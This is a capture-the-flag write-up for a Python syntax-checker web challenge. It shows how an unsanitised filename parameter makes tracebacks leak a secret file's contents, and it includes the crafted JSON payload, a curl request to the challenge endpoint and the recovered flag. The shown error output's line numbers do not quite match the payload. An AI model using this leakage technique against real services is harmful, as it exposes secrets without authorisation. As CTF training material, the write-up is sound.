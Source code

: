 # The Challenge Description 

![image](https://github.com/user-attachments/assets/ad0646fc-3161-4f40-9ead-0163cc48e22f)

Solved by : Trendo
Challenge link : http://python.ctf.theromanxpl0.it:7001/

---

### **Challenge Analysis**
A web application provides a Python syntax checker endpoint (`/check`) that uses `ast.parse()`. The server contains a `secret.py` file with the flag, which we need to extract through error message leakage.

---

### **Key Vulnerabilities**
1. **Filename Parameter Control**  
   The `filename` parameter in the JSON payload isn't sanitized, allowing path specification.
   
2. **Error Message Leakage**  
   Syntax errors return tracebacks showing code context from the specified file.

---

### **Exploit Strategy**
1. **Force Error Context Leakage**  
   Craft a payload that triggers a syntax error at the exact line where `FLAG` is declared in `secret.py`.

2. **Structure Mirroring**  
   Replicate `secret.py`'s code structure up to the flag declaration line to align error positions.

---

### **Step-by-Step Exploit**

#### 1. Analyze `secret.py` Structure
```python
def main():
    print("Here's the flag: ")
    print(FLAG) 
    
FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"

main()
```

#### 2. Craft Malicious Payload
```python
{
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"  # Valid syntax up to line 4
        "invalid syntax"  # Force error at line 5
    ),
    "filename": "secret.py"
}
```

#### 3. Send Payload to Endpoint
```bash
curl -X POST http://python.ctf.theromanxpl0.it:7001/check \
     -H "Content-Type: application/json" \
     -d '{"source":"def main():\n    print(\"Here\'s the flag: \")\n    print(FLAG)\n\nFLAG = \"\"\ninvalid syntax","filename":"secret.py"}'
```

#### 4. Analyze Error Response
The server returns:
```
  File "secret.py", line 5
    invalid syntax
    ^
SyntaxError: invalid syntax
```

**Surrounding Context:**
```
3│    print(FLAG)
4│    
5│FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"
```

---

**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`
